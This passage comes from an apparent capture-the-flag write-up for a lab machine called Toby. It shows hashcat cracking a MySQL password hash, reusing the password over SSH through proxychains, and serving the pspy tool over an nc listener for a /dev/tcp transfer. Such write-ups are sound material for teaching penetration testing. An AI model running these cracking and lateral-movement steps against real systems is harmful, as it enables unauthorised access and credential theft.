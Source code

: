 Feeding the hash plus this wordlist into Hashcat breaks it very quickly:

```

$ hashcat -m 11200 jack-mysql-hash passwordlist 
...[snip]...
$mysqlna$737b31214f4a653f4b3b254670235a7a7b776575*62fbcf8b7abe32279cce58d1afc5ecea7803d704:4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC
...[snip]...

```

### SSH

That password doesn’t work for jack or root on the host, or for jack or root on the Gogs container. But it does on the MySQL container:

```

oxdf@hacky$ sshpass -p '4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC' ssh jack@toby.htb
Warning: Permanently added 'toby.htb,10.10.10.140' (ECDSA) to the list of known hosts.
Permission denied, please try again.

oxdf@hacky$ proxychains sshpass -p '4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC' ssh jack@172.69.0.102
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-172.69.0.102:22-<><>-OK
Linux mysql.toby.htb 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct  9 10:37:39 2021 from 172.69.0.101
jack@mysql:~$

```

## Shell as jack on Toby

### Enumeration

The container is pretty empty. I already looked at the database and there wasn’t much else there. To look for processes, I uploaded [pspy](https://github.com/DominicBreuker/pspy). Given the complete lack of tools on this container, I had to use this [Bash trick](https://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip) using `/dev/tcp` and redirection (similar to the [Bash rev shell](https://www.youtube.com/watch?v=OjkVep2EIlw)). First, I’ll have `nc` listening to serve `pspy64` on my host:

```

oxdf@hacky$ cat pspy64 | nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```
